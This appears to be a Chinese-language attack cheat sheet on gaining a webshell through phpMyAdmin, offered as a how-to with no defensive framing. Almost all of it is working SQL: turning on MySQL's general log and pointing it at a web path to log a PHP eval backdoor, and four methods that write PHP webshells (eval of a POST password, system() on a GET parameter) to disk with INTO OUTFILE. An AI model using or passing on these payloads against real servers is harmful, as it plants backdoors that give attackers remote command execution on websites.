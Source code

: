 # phpmyadmin 拿 webshell

## 写入日志文件

### 前提知识

```sql
general_log			# 指是否启动记录日志
general_log_file 	# 指日志文件的路径

# 查询
SHOW VARIABLES LIKE "%general_log%";
```

### 修改配置

```sql
set global general_log = "ON";
SET global general_log_file = "<path>";
```

### 写入shell

```sql
select "<?php eval($_POST['pass']);?>";
```

## 写入任意文件

### 前提知识

```sql
# secure-file-priv
# NULL，表示禁止
# 值，则表示只允许该目录下文件
# 空，则表示不限制目录

# 查询语句
SHOW VARIABLES LIKE "secure_file_priv";
```

### 修改配置

```sql
# 需要在配置文件中修改
```

### 第一种方法：

```sql
CREATE TABLE mysql.darkmoon (darkmoon1 TEXT NOT NULL );
INSERT INTO mysql.darkmoon (darkmoon1 ) VALUES ('<?php @eval($_POST[pass]);?>');
SELECT darkmoon1 FROM darkmoon INTO OUTFILE '<path>';
DROP TABLE IF EXISTS darkmoon;
```

### 第二种方法：

```sql
Create TABLE moon (darkmoon text NOT NULL);
Insert INTO moon (darkmoon) VALUES('<?php @eval($_POST[pass]);?>');
select darkmoon from moon into outfile '<path>';
Drop TABLE IF EXISTS moon;
```

### 第三种方法：

```sql
select '<?php @eval($_POST[pass]);?>'INTO OUTFILE '<path>';
```

### 第四种方法：

```sql
select '<?php echo \'<pre>\';system($_GET[\'cmd\']); echo \'</pre>\'; ?>' INTO OUTFILE '<path>';
```

